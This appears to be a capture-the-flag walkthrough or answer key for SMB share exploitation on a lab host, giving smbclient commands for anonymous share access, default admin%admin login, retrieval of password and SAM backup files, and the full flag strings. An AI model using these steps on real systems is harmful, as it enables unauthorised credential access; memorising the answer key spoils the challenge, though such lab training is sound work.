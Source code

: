 
## SMB Share Exploitation

### FLAG 007: Public Share Discovery (10 points)
**Location**: Public share accessible without authentication
```bash
# Connect to Public share without credentials
smbclient //192.168.1.22/Public -N

# At the SMB prompt:
smb: \> ls
smb: \> get flag.txt
smb: \> !cat flag.txt
# Output: FLAG{DRAGONITE22009185}
smb: \> quit
```

### FLAG 010: Password File in Public Share (15 points)
**Location**: passwords.txt in Public share
```bash
# Connect to Public share
smbclient //192.168.1.22/Public -N

smb: \> get passwords.txt
smb: \> !cat passwords.txt
# Contains: FLAG{MACHAMP06770292}
smb: \> quit
```

### FLAG 008: Backup Share Access (20 points)
**Location**: Backup share requires authentication
```bash
# Connect with credentials
smbclient //192.168.1.22/Backup -U admin%admin

smb: \> ls
smb: \> get flag.txt
smb: \> !cat flag.txt
# Output: FLAG{SNORLAX62596879}
smb: \> quit
```

### FLAG 011: SAM Backup Information (45 points)
**Location**: SAM backup info in Backup share
```bash
# Connect to Backup share
smbclient //192.168.1.22/Backup -U admin%admin

smb: \> get sam_backup_info.txt
smb: \> !cat sam_backup_info.txt
# Contains: Flag: FLAG{GYARADOS99305915}
smb: \> quit
```
